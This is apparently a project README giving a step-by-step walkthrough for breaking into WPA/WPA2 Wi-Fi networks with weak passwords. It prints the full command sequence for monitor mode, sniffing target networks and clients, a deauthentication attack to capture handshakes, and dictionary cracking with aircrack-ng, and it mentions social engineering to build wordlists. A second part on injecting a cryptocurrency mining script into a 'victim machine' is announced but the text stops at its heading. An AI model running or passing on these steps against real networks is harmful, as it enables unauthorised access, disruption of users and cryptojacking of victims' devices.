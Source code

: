 # Gaining access to WPA/WPA2 with short/easy password and inject mining script
Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so I need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client.  To get the handshake traffic, I will use deauthentication attack to kick a current client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6.   Crack the password. 
6a. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   a. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   b. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering. 

6b. Then compare it with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
Part 2. Injecting malicious script to victim machine.

